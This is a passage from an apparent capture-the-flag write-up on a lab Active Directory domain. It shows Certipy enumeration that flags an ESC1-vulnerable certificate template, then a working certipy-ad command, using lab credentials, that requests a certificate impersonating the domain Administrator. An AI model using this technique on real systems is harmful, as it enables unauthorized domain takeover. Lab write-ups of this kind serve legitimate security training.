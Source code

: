 ```bash
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-05-12T08:55:40+00:00
    Template Last Modified              : 2023-05-12T08:55:40+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Full Control Principals         : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Property Enroll           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : THM.LOCAL\Domain Computers
                                          THM.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

--> We found a **certificate template vulnerable to ESC1** on the “ServerAuth” template, which is both **enabled** and **user-enrollable by THM.LOCAL\Authenticated Users**.

The key details indicating this are:
- **Enrollee Supplies Subject:** True (“EnrolleeSuppliesSubject”).
- **Extended Key Usage includes Client Authentication**.
- **Enrollment Rights for Authenticated Users**.
- Template is **enabled**.
- Permissions allow **low-privileged users (Authenticated Users)** to request certificates.

+ We  can **request a certificate impersonating any domain user** (including privileged accounts) by specifying their username in the certificate request
 ```bash
 $ certipy-ad req -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target <IP> -template ServerAuth -upn Administrator@thm.local
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@thm.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
 ```
